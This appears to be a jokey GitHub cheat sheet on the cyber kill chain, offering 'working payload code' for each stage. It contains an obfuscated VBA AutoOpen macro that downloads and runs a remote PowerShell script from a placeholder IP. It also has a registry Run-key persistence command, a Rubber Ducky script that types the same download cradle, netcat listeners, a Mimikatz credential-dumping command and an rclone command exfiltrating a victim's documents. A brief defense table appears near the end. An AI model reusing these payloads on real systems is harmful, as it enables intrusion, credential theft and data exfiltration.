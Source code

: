 # Cyber Kill Chain – Operation: PWN EVERYTHING
*Presented by: Agent 1337 aka Ainny1, InfoSec's slickest field operative*

_Includes working payload code samples for lab use._


## 1. Reconnaissance – “The Creeper’s Crawl”

| Field | Details |
|-------|---------|
| Mission | Know thy target. |
| Tactics | - Passive: Google dorking, LinkedIn stalking, Shodan scans<br>- Active: Phishing domain lookups, WHOIS scraping |
| Payloads | N/A (no code dropped here — just info slurped) |
| Tip | Try using “theHarvester” and see what emails and domains fall out like candy from a piñata. |

## 2. Weaponization – “Crafting the Digital Dagger”

| Field | Details |
|-------|---------|
| Mission | Combine malware with a delivery vehicle. |
| Tactics | - Malicious PDFs/Excels<br>- Bind reverse shell to installer |
| Payloads | - Meterpreter in a CV-laced PDF<br>- Emotet in invoice-themed Word doc<br>- PowerShell Empire script<br>It’s like putting a snake in a birthday cake. Only less festive. And more... root access. |
| Sample Code | Sub AutoOpen()<br>    Dim p1 As String, p2 As String, p3 As String<br>    p1 = "pow"<br>    p2 = "ers"<br>    p3 = "hell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"<br>    Dim fullCmd As String<br>    fullCmd = p1 & p2 & p3<br>    Shell fullCmd, vbHide<br>End Sub |

## 3. Delivery – “The Trojan Horse Uber Eats Edition”

| Field | Details |
|-------|---------|
| Mission | Get the payload to the victim. |
| Tactics | - Phishing emails<br>- Drive-by downloads<br>- USB drops |
| Payloads | - Malicious login links<br>- MalDoc macro<br>- Rubber Ducky USB scripts |
| Tip | Can you spot the phishing email before HR opens it? |

## 4. Exploitation – “The Big Bang”

| Field | Details |
|-------|---------|
| Mission | Trigger the payload to breach the system. |
| Tactics | - Macros<br>- Zero-day exploits<br>- JavaScript payloads |
| Payloads | - CVE-2021-40444<br>- Log4Shell<br>- Cobalt Strike beacon |
| Tip | User: “Why is my screen flickering?”<br>Attacker: “That’s just... your new dark mode.” |

## 5. Installation – “Staying for Dinner”

| Field | Details |
|-------|---------|
| Mission | Set up shop. |
| Tactics | - Backdoors<br>- Registry run keys<br>- RATs |
| Payloads | - NanoCore<br>- Cobalt Strike<br>- Encoded PowerShell in scheduled task |
| Tip | Always check your startup programs. |
| Sample Code | Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')" |

## 6. Command and Control (C2) – “Hello from the Other Side”

| Field | Details |
|-------|---------|
| Mission | Maintain remote access and issue commands. |
| Tactics | - HTTPS<br>- DNS tunneling<br>- Cloud-based C2 |
| Payloads | - Metasploit beacon<br>- Sliver C2<br>- Discord bot |
| Tip | Try setting up a simulated C2 in a lab. |
| Sample Code | # Netcat listener<br>nc -lvnp 443<br><br># Python HTTP server<br>python3 -m http.server 80 |

## 7. Actions on Objectives – “Data, Gold, and Glory”

| Field | Details |
|-------|---------|
| Mission | Exfiltrate, destroy, encrypt, or spy. |
| Tactics | - Data exfil<br>- Ransomware<br>- Credential harvesting |
| Payloads | - Rclone<br>- LockBit/BlackCat<br>- Mimikatz |
| Tip | If you hear ‘your files have been encrypted,’ the party’s over. |
| Sample Code | # Mimikatz<br>sekurlsa::logonpasswords<br><br># Rclone exfil<br>rclone copy C:\Users\victim\Documents remote:loot --config rclone.conf |

## Bonus Level: DEFENSE MODE – Your Counterplay

| Field | Details |
|-------|---------|
| Defense Tactics | Recon: Monitor open-source mentions<br>Delivery: Email filtering + awareness<br>Exploit/Install: EDR + patching<br>C2: Detect beaconing patterns<br>Objectives: DLP, SIEM alerts, segmentation |

## Bonus Payload – Rubber Ducky Ninja Moves

| Field | Details |
|-------|---------|
| Ducky Script | DELAY 1000<br>GUI r<br>DELAY 500<br>STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"<br>ENTER |
| shell.ps1 | Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')" |





